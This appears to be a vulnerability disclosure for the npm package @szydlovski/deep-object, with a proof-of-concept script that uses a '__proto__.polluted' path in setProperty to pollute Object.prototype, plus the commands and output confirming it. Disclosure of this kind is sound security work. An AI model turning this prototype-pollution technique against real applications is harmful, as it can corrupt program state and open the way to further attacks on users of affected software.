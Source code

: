# Description

`@szydlovski/deep-object` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var deepObject = require("@szydlovski/deep-object")
var obj = {}
console.log("Before : " + obj.polluted);
deepObject.setProperty(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + obj.polluted);
```


2. Execute the following commands in terminal:

```
npm i @szydlovski/deep-object # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
